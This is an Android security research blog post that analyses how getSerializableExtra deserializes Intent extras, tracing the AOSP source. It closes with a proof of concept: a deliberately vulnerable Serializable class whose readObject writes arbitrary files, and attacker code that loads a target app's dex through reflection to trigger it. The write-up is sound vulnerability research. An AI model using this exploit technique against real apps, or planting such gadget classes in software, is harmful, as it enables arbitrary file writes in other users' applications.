

## Introduction
Serialization and deserialization mechanisms are always risky operations from a security point of view. In most languages and frameworks, if an attacker is able to deserialize arbitrary input (or just corrupt it as we have demonstrated years ago with the [Rusty Joomla RCE](rusty-joomla-remote-code-execution.html)) the impact is usually the most critical: Remote Code Execution. Without re-explaining the wheel, since there are already multiple good resources online that explain the basic concepts of insecure deserialization issues, we would like to put our attention into an interesting android API and class: `getSerializableExtra` and `Serializable`.

## `getSerializableExtra` introduction
The [`getSerializableExtra`](<https://developer.android.com/reference/android/content/Intent#getSerializableExtra(java.lang.String)>) API, from the [`Intent`](<https://developer.android.com/reference/android/content/Intent#getSerializableExtra(java.lang.String,%20java.lang.Class%3CT%3E)>) class, permits to retrieve a [`Serializable`](https://developer.android.com/reference/java/io/Serializable) object through an extra parameter of a receiving Intent and, if the component is exported and enabled, it can represents an interesting attack surface from an attacker point of view. The `getSerializableExtra(String name)` has been deprecated in Android API level 33 (Android 13) in favor of the type-safer `getSerializableExtra(String name, Class<T> clazz)`. The [`Serializable`](https://developer.android.com/reference/java/io/Serializable) class documentation, that enables object deserialization, contains the following bold text:
> **Warning: Deserialization of untrusted data is inherently dangerous and should be avoided. Untrusted data should be carefully validated.**

Since we already know the generic risks of deserializing an arbitrary input object, the objective of this deep dive is to understand the real consequences of calling `getSerializableExtra` on arbitrary input with and without the type-safer parameter.

## `getSerializableExtra` internal code overview
### First steps
What's better than actually begin by reading the source code of the API in our interest? We think nothing, so this is the summary of the `getSerializableExtra` flow using AOSP on Android 15: `Intent::getSerializableExtra` => `Bundle::getSerializable` => `BaseBundle::getSerializable` => `BaseBundle::getValue` => `..`.

```java
// Intent::getSerializableExtra
public @Nullable Serializable getSerializableExtra(String name) {
    return mExtras == null ? null : mExtras.getSerializable(name);
}

// Bundle::getSerializable
public Serializable getSerializable(@Nullable String key) {
    return super.getSerializable(key);
}

// BaseBundle::getSerializable
Serializable getSerializable(@Nullable String key) {
    unparcel();
    Object o = getValue(key);
    if (o == null) {
        return null;
    }
    try {
        return (Serializable) o;
    } catch (ClassCastException e) {
        typeWarning(key, o, "Serializable", e);
        return null;
    }
}

// BaseBundle::getValue
final Object getValue(String key) {
	return getValue(key, /* clazz */ null);
}

// BaseBundle::getValue
final <T> T getValue(String key, @Nullable Class<T> clazz) {
	// Avoids allocating Class[0] array
	return getValue(key, clazz, (Class<?>[]) null);
}
// BaseBundle::getValue
final <T> T getValue(String key, @Nullable Class<T> clazz, @Nullable Class<?>... itemTypes) {
	int i = mMap.indexOfKey(key);
	return (i >= 0) ? getValueAt(i, clazz, itemTypes) : null;
}

// BaseBundle::getValueAt
final <T> T getValueAt(int i, @Nullable Class<T> clazz, @Nullable Class<?>... itemTypes) {
	Object object = mMap.valueAt(i);
	if (object instanceof BiFunction<?, ?, ?>) {
		synchronized (this) {
			object = unwrapLazyValueFromMapLocked(i, clazz, itemTypes);
		}
	}
	return (clazz != null) ? clazz.cast(object) : (T) object;
}
```

`BaseBundle::getSerializable` is the one responsible to retrieve the value from the received Intent (or at this level is better to define it as a [`Parcel`](https://developer.android.com/reference/android/os/Parcel) object) and it returns the object casted to `Serializable`. This flow is really similar to the retrieval of other parameter types. If you see the `getString`, `getCharSequence` or `getDobule` methods, they act in a similar way: they retrieve a generic `Object` from `mMap.getKey()` and then return its type through casting (e.g. `return (String) o)`). 

In this case things are a little bit different: `getValue` specifies the `null` class and, after some calls, `getValueAt` is called to retrieve the serialized object. `mMap.valueAt` returns the generic `Object` that is then returned with a generic `T` cast (if no class is specified) to the caller. In the middle of this there is a really weird if condition that checks if the retrieved `object` is an instance of `BiFunction<?, ?, ?>`. Honestly, I was not able to determine this condition manually with code review, so I tried it at runtime and is actually triggering the true path when `getSerializable` is called. The `unwrapLazyValueFromMapLocked` stack trace is really interesting: `android.os.BaseBundle.unwrapLazyValueFromMapLocked` => `android.os.Parcel$LazyValue.apply` => `android.os.Parcel.readValue` => `android.os.Parcel.readSerializableInternal` 

### `Parcel::readSerializableInternal`
Since our main interest is in how input objects are handled and deserialized, we can directly focus on the latest method that seems to align with our objective:
```java
private <T> T readSerializableInternal(@Nullable final ClassLoader loader,
		@Nullable Class<T> clazz) {
	String name = readString();
	if (name == null) {
		// For some reason we were unable to read the name of the Serializable (either there
		// is nothing left in the Parcel to read, or the next value wasn't a String), so
		// return null, which indicates that the name wasn't found in the parcel.
		return null;
	}

	try {
		if (clazz != null && loader != null) {
			// If custom classloader is provided, resolve the type of serializable using the
			// name, then check the type before deserialization. As in this case we can resolve
			// the class the same way as ObjectInputStream, using the provided classloader.
			Class<?> cl = Class.forName(name, false, loader);
			if (!clazz.isAssignableFrom(cl)) {
				throw new BadTypeParcelableException("Serializable object "
						+ cl.getName() + " is not a subclass of required class "
						+ clazz.getName() + " provided in the parameter");
			}
		}
		byte[] serializedData = createByteArray(); //1
		ByteArrayInputStream bais = new ByteArrayInputStream(serializedData); //2
		ObjectInputStream ois = new ObjectInputStream(bais) {
			@Override
			protected Class<?> resolveClass(ObjectStreamClass osClass)
					throws IOException, ClassNotFoundException {
				// try the custom classloader if provided
				if (loader != null) {
					Class<?> c = Class.forName(osClass.getName(), false, loader);
					return Objects.requireNonNull(c);
				}
				return super.resolveClass(osClass);
			}
		};
		T object = (T) ois.readObject();
		if (clazz != null && loader == null) {
			// If custom classloader is not provided, check the type of the serializable using
			// the deserialized object, as we cannot resolve the class the same way as
			// ObjectInputStream.
			if (!clazz.isAssignableFrom(object.getClass())) {
				throw new BadTypeParcelableException("Serializable object "
						+ object.getClass().getName() + " is not a subclass of required class "
						+ clazz.getName() + " provided in the parameter");
			}
		}
		return object;
	} catch (IOException ioe) {
		throw new BadParcelableException("Parcelable encountered "
				+ "IOException reading a Serializable object (name = "
				+ name + ")", ioe);
	} catch (ClassNotFoundException cnfe) {
		throw new BadParcelableException("Parcelable encountered "
				+ "ClassNotFoundException reading a Serializable object (name = "
				+ name + ")", cnfe);
	}
}
```

#### Method parameters: `loader` and `clazz`
We can start to get an idea of what is going on with an high level overview of the overall method. Two parameters are accepted: `loader` and `clazz`. The `clazz` is null if `getSerializible` have not specified any class (`null` is specified in the `BaseBundle::getValue` method mentioned before). The `loader` parameter instead is passed and defined something in between the stack trace from `unwrapLazyValueFromMapLocked` and `android.os.Parcel.readSerializableInternal`:
```java
/* 
runtime stack trace 
- android.os.BaseBundle.unwrapLazyValueFromMapLocked
- android.os.Parcel$LazyValue.apply
- android.os.Parcel.readValue
- android.os.Parcel.readSerializableInternal
*/

// BaseBundle::unwrapLazyValueFromMapLocked
private Object unwrapLazyValueFromMapLocked(int i, @Nullable Class<?> clazz,
		@Nullable Class<?>... itemTypes) {
	// ...
	object = ((BiFunction<Class<?>, Class<?>[], ?>) object).apply(clazz, itemTypes);
	// ...
}

// Parcel::apply
// https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/os/Parcel.java?q=symbol%3A%5Cbandroid.os.Parcel.LazyValue.apply%5Cb%20case%3Ayes
public Object apply(@Nullable Class<?> clazz, @Nullable Class<?>[] itemTypes) {
	/* .. */
	if (source != null) {
		synchronized (source) {
			if (mSource != null) {
				/* .. */
				mObject = source.readValue(mLoader, clazz, itemTypes); // [1]
				/* .. */
					source.setDataPosition(restore);
				}
				/* .. */
			}
		}
	}
	return mObject;
}

// Parcel::readValue
// https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/os/Parcel.java;drc=1cce66c0004230c737a7ef3bbc1559015d83eaa6;bpv=1;bpt=1;l=4577?gsn=readValue&gs=KYTHE%3A%2F%2Fkythe%3A%2F%2Fandroid.googlesource.com%2Fplatform%2Fsuperproject%2Fmain%2F%2Fmain%3Flang%3Djava%3Fpath%3Dandroid.os.Parcel%23467d8723cbf68a577318de9ec06f6c3232392a47c55b91808cace508df664007
private <T> T readValue(@Nullable ClassLoader loader, @Nullable Class<T> clazz,
		@Nullable Class<?>... itemTypes) {
	int type = readInt();
	/* .. */
	final T object;
	if (isLengthPrefixed(type)) {
		/* .. */
		object = readValue(type, loader, clazz, itemTypes);
		/* .. */
	} else {
		object = readValue(type, loader, clazz, itemTypes);
	}
	return object;
}

// Parcel::readValue
private <T> T readValue(int type, @Nullable ClassLoader loader, @Nullable Class<T> clazz,
		@Nullable Class<?>... itemTypes) {
	final Object object;
	switch (type) {
		case VAL_NULL:
			object = null;
			break;
		/* .. */
		case VAL_STRING:
			object = readString();
			break;

		case VAL_BYTE:
			object = readByte();
			break;

		case VAL_SERIALIZABLE:
			object = readSerializableInternal(loader, clazz);
			break;
		/* .. */
		default:
			int off = dataPosition() - 4;
			throw new BadParcelableException(
				"Parcel " + this + ": Unmarshalling unknown type code " + type
						+ " at offset " + off);
	}
	/* .. */
	return (T) object;
}

```

Most of the code is related to the unmarshalling process of Parcel objects and has been intentionally removed to focus on our main scope. The `loader` parameter that we were searching for seems to originate in the `Parcel::apply` [1] method. `mLoader`, in the `Parcel` context, is a class member of type `ClassLoader` and is defined in the `Parcel::LazyValue` constructor as the last parameter. The Lazy bundle mechanism is a "newly" (some years ago) introduced way to lazily deserialize parcels upon a prefixed length that has been well explained in the talk "[Android Parcels: The Bad, the Good and the Better - Introducing Android's Safer Parcel](https://www.youtube.com/watch?v=qIzMKfOmIAA)". 

By dynamically hooking the `readSerializableInternal` using frida, the loader (of type `dalvik.system.PathClassLoader`) has the following value:
```plain
dalvik.system.PathClassLoader[DexPathList[[zip file "/data/app/~~pSOjjaFofZg9BArMhAPO3w==/com.example.serialized.receiver-xCRsymIZLPj1E9xRk7LQpw==/base.apk"],nativeLibraryDirectories=[/data/app/~~pSOjjaFofZg9BArMhAPO3w==/com.example.serialized.receiver-xCRsymIZLPj1E9xRk7LQpw==/lib/arm64, /system/lib64, /system_ext/lib64]]]
```

The loader, of type `dalvik.system.PathClassLoader`,  is used to resolve passed objects and contains the following paths (`DexPathList`):
- `/data/app/~~pSOjjaFofZg9BArMhAPO3w==/com.example.serialized.receiver-xCRsymIZLPj1E9xRk7LQpw==/base.apk`
- `/data/app/~~pSOjjaFofZg9BArMhAPO3w==/com.example.serialized.receiver-xCRsymIZLPj1E9xRk7LQpw==/lib/arm64`
- `/system/lib64`
- `/system_ext/lib64`

The first two paths are application specific while the last two are system specific. First, pretty obvious, statement: input objects must be defined in the application or system context.

#### Class resolution
Now that we have a more understanding of both `loader` and `clazz` parameters, we can come back to the  `readSerializableInternal` source code shown above. If `clazz` is defined, `Class.forName` is used against the input class name from the parcel to return the `Class` object and verified with `isAssignableFrom` (and `BadTypeParcelableException` is thrown if it doesn't "match"). Since we are interested in the `getSerializable` surface without the explicit type casting, the `clazz` is null in these cases and the following code is executed:

```java
byte[] serializedData = createByteArray();
ByteArrayInputStream bais = new ByteArrayInputStream(serializedData);
ObjectInputStream ois = new ObjectInputStream(bais) {
	@Override
	protected Class<?> resolveClass(ObjectStreamClass osClass)
			throws IOException, ClassNotFoundException {
		// try the custom classloader if provided
		if (loader != null) {
			Class<?> c = Class.forName(osClass.getName(), false, loader);
			return Objects.requireNonNull(c);
		}
		return super.resolveClass(osClass);
	}
};
T object = (T) ois.readObject();
```

A byte array is read from the parcel using `createByteArray` (`serializedData`) and used to initialize a [`ByteArrayInputStream`](https://developer.android.com/reference/java/io/ByteArrayInputStream) (`bais`) that is used to init [`ObjectInputStream`](https://developer.android.com/reference/java/io/ObjectInputStream) (`ois`) overriding the `resolveClass` method with a different logic if the `loader` is defined (our case).  The logic is however similar to the "original" [`resolveClass`](https://developer.android.com/reference/java/io/ObjectInputStream#resolveClass(java.io.ObjectStreamClass)) behavior, as mentioned in the [documentation](<https://developer.android.com/reference/java/io/ObjectInputStream#resolveClass(java.io.ObjectStreamClass)>):
> The default implementation of this method in `ObjectInputStream` returns the result of calling `Class.forName(desc.getName(), false, loader)`

### `ObjectInputStream`
The [`ObjectInputStream`](<https://developer.android.com/reference/java/io/ObjectInputStream#resolveClass(java.io.ObjectStreamClass)>) seems our next desired target to deep in. It is a [Java class object](https://docs.oracle.com/javase/8/docs/api/?java/io/ObjectInputStream.html) and we can extract few interesting statements from its official documentation:
> An `ObjectInputStream` **deserializes primitive data and objects** previously written using an ObjectOutputStream. 

> The method **`readObject` is used to read an object from the stream**. Java's safe casting should be used to get the desired type.

> **Reading an object is analogous to running the constructors** of a new object. 

> The default deserialization mechanism for objects **restores the contents of each field** to the value and type it had when it was written.

> Classes control how they are serialized by **implementing** either the **`java.io.Serializable`** or **`java.io.Externalizable`** interfaces. **Only objects** that support the `java.io.Serializable` or `java.io.Externalizable` interface can be read from streams.

Since it's not an Android specific class, there are different online resources that have already covered the most out of it, especially this interesting talk back in 2016: ["Java deserialization vulnerabilities - The forgotten bug class" by Matthias Kaiser](https://www.youtube.com/watch?v=9Bw1urhk8zw). The key concept that we can summarize is that, in our case, the `resolveClass` method in  `ObjectInputStream` is overridden in order to use the "custom" class loader provided from the method parameter and that the deserialization process actually starts at [`ois.readObject`](https://cs.android.com/android/platform/superproject/main/+/main:libcore/ojluni/src/main/java/java/io/ObjectInputStream.java;l=420;drc=7f1a1070dbdd1bda00223be2f21936f63a8f3850).

#### `ObjectInputStream::readObject`
Finally we are at the core of the deserialization process and we can state that we are in a generic Java deserialization mechanism using the `ObjectInputStream::readObject` method. ~~My curiosity instinct tells me to go deeper far into the Java [Object Serialization Stream Protocol](https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html) parsing process but the rational part reminds me to stay on the objective~~ (spoiler: I did it, partially). However, if you desire, you can go far deeper starting from [`ObjectInputStream::readObject`](https://cs.android.com/android/platform/superproject/main/+/main:libcore/ojluni/src/main/java/java/io/ObjectInputStream.java;l=420;drc=7f1a1070dbdd1bda00223be2f21936f63a8f3850) and [`ObjectInputStream::readObject0`](https://cs.android.com/android/platform/superproject/main/+/main:libcore/ojluni/src/main/java/java/io/ObjectInputStream.java;l=1389;drc=7f1a1070dbdd1bda00223be2f21936f63a8f3850).

## Deserialization Summary
The code overview lead us to a pretty trivial conclusion: input objects are deserialized using the common Java `ObjectInputStream::readObject` mechanism and the class loader includes **application** and **system** specific paths. With that in mind, we are now aware that we are in a common Java deserialization scenario where we can instantiate system or application classes that implement the `java.io.Serialiazible` or ` java.io.Externalizable` interfaces. In order to create an impactful scenario, do we ~~**only**~~ need to find a useful gadget?

## All you need is a good gadget, right?
Instantiate a system object is pretty straightforward: you import the appropriate module and create the object from there. The same applies for third-party library objects, you regularly import them and you can use the exported classes. However, what if we want to target a specific class from a specific application? In this specific case, things are a little bit different.

### Application specific gadgets
In order to properly instantiate a target application object into another application it is possible to use dynamic code loading and reflection. First, after having identified the target object, it is necessary to extract the respective `classesN.dex` file and store it in the application resources of the attacker application (or in any other desired way). It is possible to identify the appropriate dex file by reverse engineering the target application with `jadx-gui` , where the filename is displayed in the reversed Java code. Then, with `apktool` it is possible to directly extract it (`apktool --no-src d app.apk`).

```java
File dexFile = getFileFromRaw(R.raw.classes4, "classes_out.dex");
DexClassLoader dexClassLoader = new DexClassLoader(dexFile.getAbsolutePath(), null, null, null); // [1]

loadedClass = dexClassLoader.loadClass("com.example.serialized.receiver.CustomClass"); // [2]
obj = loadedClass.newInstance(); // [3]

Field f_att1;
f_att1 = loadedClass.getDeclaredField("att1") // [4]
f_att1.setAccessible(true);
f_att1.set(obj, 1337); // [5]

Intent in = new Intent();

in.putExtra("so", (Serializable) obj); // [6]
startActivity(in);
```

The code above shows how it is then possible to import the `classes.dex` file and instantiate a `DexClassLoader` [1] from it. The returned `ClassLoader` can be used to load the class [2] and subsequently instantiate the object through the `Object.newInstance()` method [3]. Class fields can be accessed and modified through the loaded class using the `getDeclaredField`  method [4]  and `Field.set` [5]. At the end of everything, it is just necessary to cast the input object to `Serializable` [6] in order to accomodate the `Intent.putExtra` logic.

Of course, this is not the only way to achieve this result, stealthier in-memory solutions or completely different alternatives (e.g. raw object bytes) might be possible as well but are not of interest of this blog post.

### Internal deserialization process
Once the object is received from the target application through IPC, the deserialized object is a just a series of bytes (a bunch of 0s and 1s that need to be interpreted, as everything in computer science) and the previously mentioned [`ObjectInputStream::readFile0`](https://cs.android.com/android/platform/superproject/main/+/main:libcore/ojluni/src/main/java/java/io/ObjectInputStream.java;l=1389;drc=7f1a1070dbdd1bda00223be2f21936f63a8f3850) is responsible for that, following the Java [Object Serialization Stream Protocol](https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html) specification. As we have said, we are not going to deepen this process, but there are a few interesting things that are in our interest:

```java
  private Object readObject0(boolean unshared) throws IOException {
        // ..
        byte tc;
        while ((tc = bin.peekByte()) == TC_RESET) {
            // .. 
        }
        try {
            switch (tc) {
                case TC_ENUM:
                    return checkResolve(readEnum(unshared)); 
                case TC_OBJECT:
                    return checkResolve(readOrdinaryObject(unshared)); // [1]
                // ..
                }
			}
		// ..
    }
    private Object readOrdinaryObject(boolean unshared)
        throws IOException
    {
        ObjectStreamClass desc = readClassDesc(false);

        Class<?> cl = desc.forClass();
        if (cl == String.class || cl == Class.class
                || cl == ObjectStreamClass.class) {
            throw new InvalidClassException("invalid class descriptor");
        }
        Object obj;
        
        try {
            obj = desc.isInstantiable() ? desc.newInstance() : null; // [3]
        } catch (Exception ex) {
            throw (IOException) new InvalidClassException(
                desc.forClass().getName(),
                "unable to create instance").initCause(ex);
        }
        // ..
        Object obj;
        final boolean isRecord = desc.isRecord();
        if (isRecord) { // [2]
            assert obj == null;
            obj = readRecord(desc);
            if (!unshared)
                handles.setObject(passHandle, obj);
        } else if (desc.isExternalizable()) {
            readExternalData((Externalizable) obj, desc);
        } else {
            readSerialData(obj, desc);
        }

        handles.finish(passHandle);

        if (obj != null &&
            handles.lookupException(passHandle) == null &&
            desc.hasReadResolveMethod())
        {
            Object rep = desc.invokeReadResolve(obj);
        }
        return obj;
    }
```

If the byte stream contains an object (`TC_OBJECT`), [`readOrdinaryObject`](https://cs.android.com/android/platform/superproject/main/+/main:libcore/ojluni/src/main/java/java/io/ObjectInputStream.java;l=1895;drc=7f1a1070dbdd1bda00223be2f21936f63a8f3850) [2] is called and, after some validation steps, the object is instantiated through the the `.newInstance` method based on its type. The `.isInstantiable` is a good starting point to understand the logic behind the constructor selection:

```java
boolean isInstantiable() {
	requireInitialized();
	return (cons != null); //[1]
}

private ObjectStreamClass(final Class<?> cl) {
    // ..
        } else if (externalizable) {
            cons = getExternalizableConstructor(cl); // [2]
        } else {
            cons = getSerializableConstructor(cl); // [3]
    // ..
}

private static Constructor<?> getExternalizableConstructor(Class<?> cl) {
    // ..
    Constructor<?> cons = cl.getDeclaredConstructor((Class<?>[]) null); // [4]
    cons.setAccessible(true);
    // ..
    return ((cons.getModifiers() & Modifier.PUBLIC) != 0) ? cons : null;
}

private static Constructor<?> getSerializableConstructor(Class<?> cl) {
    Class<?> initCl = cl;
    // ..
    Constructor<?> cons = initCl.getDeclaredConstructor((Class<?>[]) null); // [5]
    int mods = cons.getModifiers();
    if ((mods & Modifier.PRIVATE) != 0 || ((mods & (Modifier.PUBLIC | Modifier.PROTECTED)) == 0 && !packageEquals(cl, initCl)))
    {
        return null;
    }
    // ..
    cons.setAccessible(true);
    return cons;
}

```

If we search for write references (from cs.android.com) to the `cons` variable [1], we can identify its definition in the `ObjectStreamClass` constructor [2][3]. Both 
`Externalizable` and `Serializable` interfaces are instantiated through a `public` (or also `protected` in case of `Serializable`) no-arg constructors [4][5]. In case of `Serializable` however, the returned constructor is the first non-serializable superclass.

Going back to the `readOrdinaryObject` shown above, an if/else condition dispatch the parsing method based on the received object class type.

#### `readSerialData`
Starting from the already known `Serializable` interface, let's see a trimmed version of the code responsible to handle this type of objects from the [`ObjectInputStream::readSerialData`](https://cs.android.com/android/platform/superproject/main/+/main:libcore/ojluni/src/main/java/java/io/ObjectInputStream.java;l=2063;drc=60545d5caebd2d51949000994964458249a234c3) method:

```java
private void readSerialData(Object obj, ObjectStreamClass desc) throws IOException        
    {
        ObjectStreamClass.ClassDataSlot[] slots = desc.getClassDataLayout(); // [1]
        for (int i = 0; i < slots.length; i++) {
            ObjectStreamClass slotDesc = slots[i].desc;
            if (slots[i].hasData) {
                if (obj == null || handles.lookupException(passHandle) != null) {
                    defaultReadFields(null, slotDesc);
                } else if (slotDesc.hasReadObjectMethod()) {

                    slotDesc.invokeReadObject(obj, this); // [1]
                } else {
                    defaultReadFields(obj, slotDesc);
                }
            } else {
                if (/* .. */ && slotDesc.hasReadObjectNoDataMethod())
                {
                    slotDesc.invokeReadObjectNoData(obj); // [2]
                }
            }
        }
    }
    
void invokeReadObject(Object obj, ObjectInputStream in) throws ClassNotFoundException, IOException, UnsupportedOperationException
	{
		if (readObjectMethod != null) {
			// ..
			readObjectMethod.invoke(obj, new Object[]{ in }); //[3]
			// ..
	}
```

The object needs to be deserialized from the superclass to subclasses, hence these are obtained through `getClassDataLayout` [1] and looped. Inside the `for` loop we can identify two interesting invocations: `.invokeReadObject` [1] and `.invokeReadObjectNoData` [2]. These two methods are responsible to call the respective `readObject` or `readObjectNoData` methods **if** they are defined in the serialized class through reflection [3].

#### `readExternalData`
The `readExternalData` method is instead responsible to handle [`Externalizable`](https://developer.android.com/reference/java/io/Externalizable) interfaces:

```java
private void readExternalData(Externalizable obj, ObjectStreamClass desc) throws IOException
    {
	    // ..
        try {
            if (obj != null) {
                try {
                    obj.readExternal(this);
                } catch (ClassNotFoundException ex) {
                    // ..
                }
            }
        }
    }
```

Instead of calling `readObject` or `readObjectNoData`, the `readExternal` method is called directly from the `obj` itself. In this case, the `readExternal` implementation is mandatory and class-specific while the `Serializable` is just a mark interface.

#### `readRecord`
The `readRecord` method is instead responsible to parse record types. Since records are immutable and data-focused classes, they are not in our intereset and, for that reason, we are going to skip its parsing.

### Transient and not Serializable classes
There are classes, typically related to system resources (socket, streams, threads, ..) or OS and runtime specific, that are not serializable and can be declared with the [`transient`](https://www.w3schools.com/java/ref_keyword_transient.asp) keyword. The [`transient`](https://www.w3schools.com/java/ref_keyword_transient.asp) prevents attributes from being deserialized and has been particularly used to prevent issues related to escalate java deserialization to C++ memory corruption primitives through unprotected `long` pointers ([One class to rule them all: 0-day deserialization vulnerabilities in Android](https://www.usenix.org/system/files/conference/woot15/woot15-paper-peles.pdf) and [Android Deserialization Vulnerabilities: A Brief history](https://securitylab.github.com/resources/android-deserialization-vulnerabilities/)).
If an attribute object that is not serializable (e.g. does not `implements` the `Serializable` mark interface), is not marked as `transient` and is part of a `Serializable` class, it will trigger a `java.io.NotSerializableException` inside `Parcel::writeObject0` only if the not serializable attribute is set from the sender side. Otherwise, the receving part will just receive `null`. 

## Proof-Of-Concept
### Scenario
Let's build an application Proof Of Concept that takes a Serializable object through `getIntent().getSerializible()` and casts it to a really generic type (e.g. `Activity`). Also, the application contains the following vulnerable class that implements a `readObject` that permits to write an arbitrary file with arbitrary content. The class is `Serializable` and never used across the application (*You can also note the not serializable `ComponentName` attribute*):
```java
package com.example.serialized.receiver;

import android.content.ComponentName;
import android.util.Log;

import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class CustomTargetClass implements Serializable {
    String filename;
    String content;
    ComponentName cn;

    static {
        // init
        Log.d("SS", "CustomTargetClass::init");
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        
        Log.d("SS", "CustomTargetClass::readObject");
        FileWriter fileWriter;
        File file = new File(filename);
        fileWriter = new FileWriter(file);
        fileWriter.write(content);
        fileWriter.close();
        Log.d("SS", "File written");
    }
}
```

The receiver exported activity contains the following code:
```java
public class SerialReceiver extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_serial_receiver);
        Intent in = getIntent();
        Activity so = (Activity) in.getSerializableExtra("so");
    }
}
```

### Exploitation
Following what has been previously described in the "Application specific gadgets" chapter, we can extract the `classesN.dex` where our target object (`com.example.serialized.receiver.CustomTargetClass`) is defined and import it into our application. This task is easily feasible with a combination of `jadx-gui` and `apktool`. From `jadx-gui` we can see that the class `com.example.serialized.receiver.CustomTargetClass` is defined in `classes4.dex` (from the below comment "loaded from"):

```java
package com.example.serialized.receiver;

import android.content.ComponentName;
import android.util.Log;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

/* loaded from: classes4.dex */
public class CustomTargetClass implements Serializable {
    /* .. */
}
```

With `apktool --no-src d app.apk` we can than extract the `classes4.dex` file and import into our target application (inside `res/raw`). 
After that, we can dynamically load the class and set `filename` and `content` with arbitrary values:

```java

Class<?> loadedClass;
Object obj;

File dexFile = getFileFromRaw(R.raw.classes4_target, "classes_temp_out.dex");
DexClassLoader dexClassLoader = new DexClassLoader(
        dexFile.getAbsolutePath(),          // Path to the DEX file
        null,                               // Deprecated since API 26
        null,                               // No native library search path
        null  								// Parent class loader
);

try {
    loadedClass = dexClassLoader.loadClass("com.example.serialized.receiver.CustomTargetClass");
} catch (ClassNotFoundException e) {
    throw new RuntimeException(e);
}

try {
    obj = loadedClass.newInstance();
} catch (IllegalAccessException | InstantiationException e) {
    throw new RuntimeException(e);
}

// Setting filename and content
Field f_att;
try {
    f_att = loadedClass.getDeclaredField("filename");
    f_att.setAccessible(true);
    f_att.set(obj, "/data/data/com.example.serialized.receiver/pwn.txt");

    f_att = loadedClass.getDeclaredField("content");
    f_att.setAccessible(true);
    f_att.set(obj, "ARE YOU SERI-ALAZABLE?\n");
} catch (NoSuchFieldException | IllegalAccessException e) {
    throw new RuntimeException(e);
}

// Sending intent
Intent in = new Intent();
ComponentName cn = new ComponentName("com.example.serialized.receiver", "com.example.serialized.receiver.SerialReceiver");
in.setComponent(cn);

in.putExtra("so", (Serializable) obj);
startActivity(in);

```

And the result is ...



## Conclusion
In this blog post we deep dived into the deserialization mechanism of the critical and common `getSerializable` API showcasing its internals, from a source code point of view, and demonstrating its potential security impact.

## References
- https://developer.android.com
- [Android parcels: the bad, the good and the better](https://www.youtube.com/watch?v=qIzMKfOmIAA&t=1190s)
- https://github.com/michalbednarski/ReparcelBug2
- https://github.com/michalbednarski/LeakValue?tab=readme-ov-file
- [RuhrSec 2016: "Java deserialization vulnerabilities - The forgotten bug class", Matthias Kaiser](https://www.youtube.com/watch?v=9Bw1urhk8zw)
- https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html
- [What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
- [One class to rule them all: 0-day deserialization vulnerabilities in Android](https://www.usenix.org/system/files/conference/woot15/woot15-paper-peles.pdf)
- [Android Deserialization Vulnerabilities: A Brief history](https://securitylab.github.com/resources/android-deserialization-vulnerabilities/)
